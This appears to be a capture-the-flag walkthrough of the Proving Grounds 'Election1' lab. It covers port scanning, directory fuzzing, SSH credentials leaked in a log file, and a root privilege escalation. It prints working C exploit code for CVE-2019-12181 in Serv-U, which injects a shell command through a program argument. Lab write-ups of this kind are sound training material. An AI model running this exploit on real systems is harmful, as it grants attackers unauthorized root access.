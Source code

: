 * * *
 ### Lab: Election1
 ### Platform: Proving Grounds
* * *

- Rustscan's scan details

          ❯ rustscan -a 192.168.153.211 -- -sC -sV
        .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
        | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
        | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
        `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
        The Modern Day Port Scanner.
        ________________________________________
        : https://discord.gg/GFrQsGy           :
        : https://github.com/RustScan/RustScan :
         --------------------------------------
        🌍HACK THE PLANET🌍
        
        [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
        [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
        [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
        Open 192.168.153.211:22
        Open 192.168.153.211:80
        [~] Starting Script(s)
        [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
        PORT   STATE SERVICE REASON  VERSION
        22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
        | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCoqt4FP0lhkJ0tTiMEUrVqRIcNKgQK22LJCOIVa1yoZf+bgOqsR4mIDjgpaJm/SDrAzRhVlD1dL6apkv7T7iceuo5QDXYvRLWS+PfsEaGwGpEVtpTCl/BjDVVtohdzgErXS69pJhgo9a1yNgVrH/W2SUE1b36ODSNqVb690+aP6jjJdyh2wi8GBlNMXBy6V5hR/qmFC55u7F/z5oG1tZxeZpDHbgdM94KRO9dR0WfKDIBQGa026GGcXtN10wtui2UHo65/6WgIG1LxgjppvOQUBMzj1SHuYqnKQLZyQ18E8oxLZTjc6OC898TeYMtyyKW0viUzeaqFxXPDwdI6G91J
        |   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
        | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO9gF8Fv+Uox9ftsvK/DNkPNObtE4BiuaXjwksbOizwtXBepSbhUTyL5We/fWe7x62XW0CMFJWcuQsBNS7IyjsE=
        |   256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
        |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINfCRDfwNshxW7uRiu76SMZx2hg865qS6TApHhvwKSH5
        80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
        | http-methods: 
        |_  Supported Methods: GET POST OPTIONS HEAD
        |_http-server-header: Apache/2.4.29 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Scanning for directories with ffuf reveals these directories

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0314db07-803b-49bc-b0fc-ee0c8089e292)

- I scanned the `/election/` directory with ffuf and I discovered an `admin`directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e9318af5-7af0-4627-8e99-509b8a5f218c)

- Ffuf discovered a `/logs/` directory after scanning the `/admin/` direcotory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f8d1babc-3df0-499d-9e5d-95816226f9a4)
  
- The logs directory contains a log file which reveals love ssh credentials

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f7af2def-4872-48a4-adce-0e122f54a5ac)

- SSH access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/03e41edd-2b47-4cab-aa7f-88eacd63fe79)

### PRIVESC

- The server contains a Serv-U ver 15.1.6 which has a local privilege escalation exploit.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d6e86270-d4f9-45f3-8e2d-2cee57510d17)

        /*
        
        CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 
        
        vulnerability found by:
        Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev
        
        to compile and run:
        gcc servu-pe-cve-2019-12181.c -o pe && ./pe
        
        */
        
        #include <stdio.h>
        #include <unistd.h>
        #include <errno.h>
        
        int main()
        {       
            char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
            int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
            // if execv is successful, we won't reach here
            printf("ret val: %d errno: %d\n", ret_val, errno);
            return errno;
        }

- Root access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1107846c-a02b-4b04-8687-faf002fae805)
